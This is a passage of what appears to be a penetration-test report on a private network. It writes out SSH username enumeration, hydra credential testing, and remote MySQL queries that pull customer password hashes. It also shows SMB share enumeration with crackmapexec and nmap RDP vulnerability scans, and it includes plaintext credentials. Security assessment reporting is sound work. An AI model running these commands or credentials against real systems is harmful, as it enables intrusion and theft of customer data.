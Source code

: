 ```bash
# SSH user enumeration
python3 ssh-username-enum.py --userList /usr/share/wordlists/usernames.txt 10.50.1.45

# Credential testing with discovered password
hydra -L users.txt -p "WebApp2023!Secure" ssh://10.50.1.45
```

**Result:** Successful SSH access achieved with credentials `sysadmin:WebApp2023!Secure`

**MySQL Service:**

```bash
# Remote MySQL access
mysql -h 10.50.1.45 -u webapp_user -p'WebApp2023!Secure'

# Database enumeration
mysql> SHOW DATABASES;
mysql> USE customer_portal;
mysql> SELECT username, password_hash FROM users LIMIT 5;
```

**Findings:**
- Extracted 2,847 customer records
- Password hashes stored using MD5 (weak hashing algorithm)
- Found admin user hash: `5f4dcc3b5aa765d61d8327deb882cf99` (password: "password")

#### 2.2.2 Windows Workstation Assessment (WKSTN-HR-05 - 10.50.1.78)

**SMB Enumeration:**

```bash
# Share enumeration
smbmap -H 10.50.1.78 -u anonymous
smbclient -L \\\\10.50.1.78 -N

# Authenticated enumeration (after obtaining credentials)
crackmapexec smb 10.50.1.78 -u 'jthompson' -p 'Summer2024!' --shares
```

**Accessible Shares:**
```
Share Name    Type      Comment
----------    ----      -------
ADMIN$        Disk      Remote Admin
C$            Disk      Default share
IPC$          IPC       Remote IPC
Users         Disk      
```

**RDP Analysis:**

```bash
# Check for vulnerabilities
nmap --script rdp-vuln-ms12-020,rdp-enum-encryption 10.50.1.78 -p3389

# NLA status
rdp-sec-check.pl 10.50.1.78
```

